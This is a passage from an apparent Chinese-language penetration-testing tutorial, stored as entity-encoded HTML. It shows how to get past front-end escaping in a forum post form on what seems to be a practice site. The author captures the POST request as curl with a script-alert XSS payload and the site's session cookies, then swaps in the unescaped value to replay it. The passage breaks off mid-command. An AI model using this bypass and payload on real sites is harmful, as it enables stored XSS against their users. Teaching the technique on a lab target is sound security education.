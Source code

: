 &#x6293;&#x5305;&#x7ED5;&#x8FC7;</h3><p>&#x73B0;&#x5728;&#x70B9;&#x51FB;&#x6807;&#x9898;&#xFF0C;&#x8FDB;&#x5165;&#x5E16;&#x5B50;&#x8BE6;&#x60C5;&#x9875;&#x9762;&#xFF0C;&#x5728;&#x8BE6;&#x60C5;&#x9875;&#x7B14;&#x8005;&#x53D1;&#x73B0;payload&#x4E5F;&#x53EA;&#x89E6;&#x53D1;&#x4E86;&#x4E00;&#x6B21;&#xFF0C;&#x800C;&#x4E14;&#x5185;&#x5BB9;&#x5F53;&#x4E2D;&#x7684;&#x6807;&#x7B7E;&#x88AB;&#x76F4;&#x63A5;&#x663E;&#x793A;&#x4E86;&#x51FA;&#x6765;&#xFF0C;&#x5982;&#x4E0B;&#x56FE;</p><p><span class="img-wrap"><img data-src="/img/remote/1460000016095216?w=816&amp;h=444" src="https://static.alili.tech/img/remote/1460000016095216?w=816&amp;h=444" alt="image" title="image"></span></p><p>&#x5F53;&#x6807;&#x7B7E;&#x88AB;&#x76F4;&#x63A5;&#x663E;&#x793A;&#x51FA;&#x6765;&#xFF0C;&#x8FD9;&#x8BF4;&#x660E;&#x7B14;&#x8005;&#x7684;&#x53C2;&#x6570;&#x88AB;&#x8F6C;&#x4E49;&#x4E86;&#xFF1B;&#x8F6C;&#x4E49;&#x5206;&#x4E3A;&#x4E24;&#x79CD;&#xFF0C;&#x524D;&#x7AEF;&#x8F6C;&#x4E49;&#x548C;&#x540E;&#x7AEF;&#x8F6C;&#x4E49;&#xFF0C;&#x5982;&#x679C;&#x662F;&#x540E;&#x7AEF;&#x8F6C;&#x4E49;&#x901A;&#x5E38;&#x7B14;&#x8005;&#x4F1A;&#x653E;&#x5F03;&#x6D4B;&#x8BD5;&#xFF0C;&#x5982;&#x679C;&#x662F;&#x524D;&#x7AEF;&#x8F6C;&#x4E49;&#x5219;&#x53EF;&#x4EE5;&#x7ED5;&#x8FC7;&#x8FD9;&#x4E2A;&#x9650;&#x5236;&#xFF1B;&#x5728;&#x8FD9;&#x91CC;&#x7B14;&#x8005;&#x53D1;&#x73B0;&#x6807;&#x9898;&#x6CA1;&#x6709;&#x88AB;&#x8F6C;&#x4E49;&#xFF0C;&#x800C;&#x5185;&#x5BB9;&#x88AB;&#x8F6C;&#xFF0C;&#x731C;&#x6D4B;&#x53EF;&#x80FD;&#x662F;&#x524D;&#x7AEF;&#x505A;&#x7684;&#x8F6C;&#x4E49;&#xFF0C;&#x56E0;&#x6B64;&#x53EF;&#x4EE5;&#x901A;&#x8FC7;&#x6D4F;&#x89C8;&#x5668;&#x7684;&#x5BA1;&#x67E5;&#x5DE5;&#x5177;&#x5C06;&#x6570;&#x636E;&#x5305;&#x62F7;&#x8D1D;&#x4E0B;&#x6765;&#xFF1B;</p><p>&#x9996;&#x5148;&#x91CD;&#x65B0;&#x6253;&#x5F00;&#x53D1;&#x5E16;&#x9875;&#x9762;&#xFF0C;&#x7136;&#x540E;&#x5728;&#x7F51;&#x9875;&#x968F;&#x4FBF;&#x4E00;&#x4E2A;&#x4F4D;&#x7F6E;<code>&#x5355;&#x51FB;&#x9F20;&#x6807;&#x53F3;&#x952E;</code>-&gt;&#x9009;&#x62E9;<code>&#x5BA1;&#x67E5;&#x5143;&#x7D20;</code>-&gt;&#x5207;&#x6362;&#x5230;<code>network</code>&#x6807;&#x7B7E;&#x5E76;&#x52FE;&#x9009;<code>Preserve log</code>&#xFF0C;&#x6253;&#x5F00;&#x7F51;&#x7EDC;&#x5E76;&#x52FE;&#x9009;<code>Preserve log</code>&#x7684;&#x76EE;&#x7684;&#x662F;&#x8BA9;&#x53D1;&#x8868;&#x5E16;&#x5B50;&#x4E4B;&#x540E;&#xFF0C;&#x80FD;&#x5728;&#x7F51;&#x7EDC;&#x8BF7;&#x6C42;&#x4E2D;&#x627E;&#x5230;&#x8BE5;&#x8BB0;&#x5F55;&#xFF0C;&#x73B0;&#x5728;&#x7B14;&#x8005;&#x53EF;&#x4EE5;&#x586B;&#x5199;&#x65B0;&#x7684;payload&#xFF0C;&#x5982;&#x4E0B;&#x56FE;<br><span class="img-wrap"><img data-src="/img/remote/1460000016095217?w=1325&amp;h=737" src="https://static.alili.tech/img/remote/1460000016095217?w=1325&amp;h=737" alt="image" title="image"></span></p><p>&#x70B9;&#x51FB;&#x53D1;&#x8868;&#x6309;&#x94AE;&#x4E4B;&#x540E;&#xFF0C;&#x7B14;&#x8005;&#x53EF;&#x4EE5;&#x5728;&#x63A7;&#x5236;&#x53F0;&#x4E2D;&#x627E;&#x5230;&#x521A;&#x624D;&#x7684;post&#x8BF7;&#x6C42;&#xFF0C;&#x4ECE;&#x8BF7;&#x6C42;&#x4E2D;&#x53EF;&#x4EE5;&#x770B;&#x51FA;&#xFF0C;&#x8FD9;&#x4E2A;&#x6570;&#x636E;&#x53D1;&#x51FA;&#x53BB;&#x5C31;&#x5DF2;&#x7ECF;&#x88AB;&#x8F6C;&#x4E49;&#x4E86;&#xFF0C;&#x5982;&#x4E0B;&#x56FE;<br><span class="img-wrap"><img data-src="/img/remote/1460000016095218?w=888&amp;h=498" src="https://static.alili.tech/img/remote/1460000016095218?w=888&amp;h=498" alt="image" title="image"></span></p><h3>5.4 &#x7F16;&#x7801;&#x66FF;&#x6362;</h3><p>&#x5F53;&#x786E;&#x5B9A;&#x8FD9;&#x4E2A;&#x5730;&#x65B9;&#x5B58;&#x5728;&#x524D;&#x7AEF;&#x505A;&#x4E86;&#x8F6C;&#x4E49;&#x5904;&#x7406;&#xFF0C;&#x5982;&#x679C;&#x540E;&#x7AEF;&#x6CA1;&#x6709;&#x505A;&#x5904;&#x7406;&#xFF0C;&#x7B14;&#x8005;&#x5C31;&#x53EF;&#x4EE5;&#x7ED5;&#x8FC7;&#x5B83;&#xFF0C;&#x73B0;&#x5728;&#x7B14;&#x8005;&#x5C06;&#x8BF7;&#x6C42;&#x590D;&#x5236;&#x51FA;&#x6765;&#xFF0C;&#x7136;&#x540E;&#x6539;&#x53D8;&#x91CC;&#x9762;&#x7684;&#x6570;&#x636E;&#xFF0C;&#x5982;&#x4E0B;&#x56FE;<br><span class="img-wrap"><img data-src="/img/remote/1460000016095219?w=807&amp;h=388" src="https://static.alili.tech/img/remote/1460000016095219?w=807&amp;h=388" alt="image" title="image"></span></p><p>&#x590D;&#x5236;&#x51FA;&#x6765;&#x7684;&#x6570;&#x636E;&#x5982;&#x4E0B;</p><pre><code>curl &apos;http://permeate.songboy.net/home/_fatie.php?bk=6&amp;zt=0&apos; -H &apos;Connection: keep-alive&apos; -H &apos;Cache-Control: max-age=0&apos; -H &apos;Origin: http://permeate.songboy.net&apos; -H &apos;Upgrade-Insecure-Requests: 1&apos; -H &apos;Content-Type: application/x-www-form-urlencoded&apos; -H &apos;User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36&apos; -H &apos;Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8&apos; -H &apos;Referer: http://permeate.songboy.net/home/fatie.php?bk=6&apos; -H &apos;Accept-Encoding: gzip, deflate&apos; -H &apos;Accept-Language: zh-CN,zh;q=0.9,en;q=0.8&apos; -H &apos;Cookie: __cfduid=defc970ef7081e30aedd761da5762b1891532003579; UM_distinctid=1655a61a23343c-03f0904540a333-34657908-1fa400-1655a61a234323; PHPSESSID=rufhm0741qfv55cpfnc80k1g4l&apos; --data &apos;csrf_token=3908&amp;bk=6&amp;title=222%3Cscript+%3Ealert%28123%29%3C%2Fscript%3E&amp;content=%3Cp%3E222%26lt%3Bscript+%26gt%3Balert%28123%29%26lt%3B%2Fscript%26gt%3B%3C%2Fp%3E&apos; --compressed</code></pre><p>&#x7B14;&#x8005;&#x627E;&#x5230;&#x53C2;&#x6570;&#x4E2D;&#x7684;<code>title</code>&#x548C;<code>content</code>&#x53C2;&#x6570;&#x503C;&#xFF0C;&#x5C06;title&#x7684;&#x53C2;&#x6570;&#x503C;&#x590D;&#x5236;&#x4E0B;&#x6765;&#xFF0C;&#x7136;&#x540E;&#x66FF;&#x6362;<code>content</code>&#x7684;&#x53C2;&#x6570;&#x503C;&#xFF0C;&#x66FF;&#x6362;&#x540E;&#x7684;&#x5185;&#x5BB9;&#x5982;&#x4E0B;</p><pre><code>curl &apos;http://permeate.songboy.net/home/_fatie.php?bk=6&amp;zt=0&apos; -H &apos;Connection: keep-alive&apos; -H &apos;Cache-Control: max-age=0&apos;